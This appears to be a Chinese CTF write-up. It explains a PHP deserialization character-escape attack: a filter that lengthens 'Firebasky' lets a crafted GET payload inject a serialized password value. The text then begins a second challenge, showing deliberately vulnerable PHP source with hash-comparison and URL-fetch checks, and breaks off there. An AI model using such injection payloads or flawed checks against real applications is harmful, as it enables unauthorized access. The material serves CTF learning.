 这里get传入一个 `1` 参数之后,序列化 `a`  类产生的对象，在经过 `filter` 函数的处理，最后在进行反序列化。

在 a 类中，有个 `__wakeup()`函数，该函数在反序列化时会自动执行，而当条件 `password=yu22x` 时，才会输出falg.

但是这里只可以赋值给 `uname` , `password` 被指定了 1 .

所以，这里就需要进行反序列化逃逸。`filter函数`将GET传参中的`Firebasky` 替换为 `Firebaskyup`,这样就会造成反序列化字符逃逸.

这里再本地测试，并输出序列化经过`filter`函数处理后的字符串。`echo $ser;`

正常传值 `yu22x` ，结果正常：

	O:1:"a":2:{s:5:"uname";s:5:"yu22x";s:8:"password";i:1;}

但是当传值 `Firebasky` ,就出现了问题：

	O:1:"a":2:{s:5:"uname";s:9:"Firebaskyup";s:8:"password";i:1;}

这里发现`Firebaskyup`长度为11 但是前面序列化的长度只有9.（正则替换多了两个字符）

> php在反序列化时 会在s:9后面继续寻找9个字符 如果符合反序列化规则
就进行反序列化。即 到s:9时 继续向后寻找9个字符:Firebaskyup由于不符合反序列化规则(到达字符长度没有引号闭合) 所以就不进行反序列化
由于多出来了两个字符 我们可以利用这个来构造一个合适长度的Firebasky 来多出足够的字符 将";s:8:"password";s:5:"yu22x";} 写入字符串 将 password=1逃逸出去

 
每个 `Firebasky` 都会被替换多两个字符， `";s:8:"password";s:5:"yu22x";}` 有30个字符，所以需要15个 `Firebasky` ，每个多以两字符，正好多出30字符，进行逃逸。

构造 

	?1=FirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebaskyFirebasky";s:8:"password";s:5:"yu22x";}


序列化后结果

	O:1:"a":2:{s:5:"uname";s:165:"FirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyupFirebaskyup";s:8:"password";s:5:"yu22x";}";s:8:"password";i:1;}`


得到flag.

## web2_故人心 

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$a=$_GET['a'];
$b=$_GET['b'];
$c=$_GET['c'];
$url[1]=$_POST['url'];
if(is_numeric($a) and strlen($a)<7 and $a!=0 and $a**2==0){
    $d = ($b==hash("md2", $b)) && ($c==hash("md2",hash("md2", $c)));
    if($d){
             highlight_file('hint.php');
             if(filter_var($url[1],FILTER_VALIDATE_URL)){
                $host=parse_url($url[1]);
                print_r($host); 
                if(preg_match('/ctfshow\.com$/',$host['host'])){
                    print_r(file_get_contents($url[1]));
                }else{
                    echo '差点点就成功了！';
                }
            }else{
                echo 'please give me url!!!';
            }     
    }else{
        echo '想一想md5碰撞原理吧?!';
    }
```